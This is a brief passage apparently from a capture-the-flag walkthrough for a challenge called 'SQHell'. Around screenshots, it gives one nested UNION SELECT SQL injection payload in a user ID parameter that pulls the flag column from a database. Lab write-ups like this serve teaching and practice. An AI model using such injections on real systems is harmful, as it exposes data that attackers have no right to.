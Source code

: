 ![Untitled](/assets/SQHell%20images/Untitled%2015.png)

Now, just simply replace the number **2** in the query to the column name as **flag** and get the flag:

```
/user?id=0 UNION SELECT "0 UNION SELECT 1,flag,3,4 FROM flag",2,3#
```

![Untitled](/assets/SQHell%20images/Untitled%2016.png)
